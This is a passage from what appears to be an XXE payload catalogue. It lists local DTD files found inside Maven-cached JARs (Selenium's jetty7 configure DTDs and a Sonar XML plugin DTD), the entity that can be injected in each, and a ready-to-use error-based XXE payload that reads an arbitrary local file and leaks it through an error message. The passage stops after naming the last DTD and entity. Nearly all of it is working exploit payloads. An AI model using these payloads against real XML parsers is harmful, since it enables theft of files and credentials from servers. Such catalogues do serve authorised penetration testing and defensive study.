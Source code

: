 **Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/seleniumhq/selenium/selenium-server-standalone/2.46.0/selenium-server-standalone-2.46.0.jar!/org/seleniumhq/jetty7/xml/configure_6_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/seleniumhq/selenium/selenium-server-standalone/2.46.0/selenium-server-standalone-2.46.0.jar!/org/seleniumhq/jetty7/xml/configure_7_6.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/seleniumhq/selenium/selenium-server-standalone/2.46.0/selenium-server-standalone-2.46.0.jar!/org/seleniumhq/jetty7/xml/configure_7_6.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/sonarsource/xml/sonar-xml-plugin/1.4.3.1027/sonar-xml-plugin-1.4.3.1027.jar!/org/sonar/plugins/xml/dtd/xhtml1/xhtml1-frameset.dtd`

**Injectable entity:** `%HTMLlat1`
